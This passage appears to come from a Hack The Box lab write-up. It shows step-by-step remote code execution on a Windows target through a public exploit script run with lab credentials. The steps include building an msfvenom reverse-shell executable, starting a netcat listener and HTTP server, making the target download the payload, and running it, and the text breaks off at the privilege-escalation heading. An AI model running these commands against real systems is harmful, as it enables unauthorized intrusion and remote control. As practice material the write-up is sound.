 Finding a writeable directory:

```
python 49488.py -u admin@htb.local -p baconandcheese -i 'http://10.129.60.40' -c powershell.exe -a "ls C:/" 
```

* We see ftp\_transfer

Creating payload w/ msfvenom:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=1337 -f exe > shell-x64.exe
```

* Must be a <mark style="color:yellow;">stageless payload</mark>

Start nc listener:

```
nc -lnvp 1337
```

Start HTTP server for file transfer:

```
python3 -m http.server
```

Transfer payload to target:

```
python 49488.py -u admin@htb.local -p baconandcheese -i 'http://10.129.60.40' -c powershell.exe -a "-NoP Invoke-WebRequest -Uri 'http://10.10.16.2:8000/shell-x64.exe' -Outfile 'C:/ftp_transfer/shell-x64.exe'"
```

Detonate the reverse shell payload:

```
python 49488.py -u admin@htb.local -p baconandcheese -i 'http://10.129.60.40' -c powershell.exe -a "C:/ftp_transfer/shell-x64.exe"
```

<figure><img src="../../../.gitbook/assets/image (7) (2) (2).png" alt=""><figcaption><p>Shell</p></figcaption></figure>

## Privilege Escalation
